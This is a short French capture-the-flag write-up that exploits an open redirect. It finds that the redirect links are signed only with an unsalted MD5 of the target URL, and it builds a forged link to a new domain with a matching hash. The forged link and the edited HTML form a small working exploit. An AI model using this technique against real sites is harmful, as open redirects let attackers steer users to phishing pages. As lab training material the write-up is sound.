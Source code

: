 # HTTP - Open redirect

## Enoncé

```
Trouvez un moyen de faire une redirection vers un domaine autre que ceux proposés sur la page web.
```

## Procédure

1. Analyse de la page

Il y a 3 liens cliquables, un vers Facebook, un autre vers Twitter et le dernier vers Slack

Voici le code source de la page html représentant les 3 liens: 

```
<a href='?url=https://facebook.com&h=a023cfbf5f1c39bdf8407f28b60cd134'>facebook</a>
<a href='?url=https://twitter.com&h=be8b09f7f1f66235a9c91986952483f0'>twitter</a>
<a href='?url=https://slack.com&h=e52dc719664ead63be3d5066c135b6da'>slack</a>
```

2. Analyse du hash

Exemple pour facebook : 

```
cypher = a023cfbf5f1c39bdf8407f28b60cd134 <-- Type de hash MD5
cypher = https://facebook.com
```

3. Création de la payload

Pour ce faire il me faut un site web comme Facebook, je vais prendre Instagram.

```
https://www.instagram.com
```

J'encode ensuite le lien en MD5.

```
81baa2bda524b19dddf2507580b95e0b
```

Résultat : 

```
https://www.instagram.com&h=81baa2bda524b19dddf2507580b95e0b
```

4. Exploitation 

Je remplace de la page html un lien cliquable par le mien et je clique ensuite dessus.

Changement sur la page : 

```
<a href='?url=https://www.instagram.com&h=81baa2bda524b19dddf2507580b95e0b'>facebook</a>
<a href='?url=https://twitter.com&h=be8b09f7f1f66235a9c91986952483f0'>twitter</a>
<a href='?url=https://slack.com&h=e52dc719664ead63be3d5066c135b6da'>slack</a>
```









https://www.instagram.com&h=81baa2bda524b19dddf2507580b95e0b